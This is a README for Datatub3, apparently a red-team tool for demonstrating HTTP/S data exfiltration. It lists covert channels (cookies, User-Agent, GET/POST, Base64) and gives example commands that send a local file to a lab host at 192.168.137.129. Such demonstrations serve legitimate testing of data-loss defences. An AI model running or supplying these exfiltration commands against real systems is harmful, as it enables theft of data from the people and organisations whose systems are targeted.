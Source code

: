 # Datatub3

Tool development to make PoC of Data Exfiltration HTTP/S (Client Version).

![Datatub3](https://i.imgur.com/PJzFODI.png)

# Install

 $ git clone https://github.com/xf5/datatub3

 $ python3 datatub3.py

# Exfiltration Features
- User-Agent
- Cookie
- POST Request
- GET Request
- All requests encoded with Base 64

# Exemples
### Exfiltration Cookie
python3 datatub3.py -u http://192.168.137.129 --cookie poc.txt

### Exfiltration User-Agent
python3 datatub3.py -u http://192.168.137.129 --useragent poc.txt

### Exfiltration Base 64
python3 datatub3.py -u http://192.168.137.129 –post-b64 poc.txt

![Command](https://i.imgur.com/Eoe2Kol.png)

![Packet](https://https://i.imgur.com/IR69st8.png)

# Requirements
- Python 3
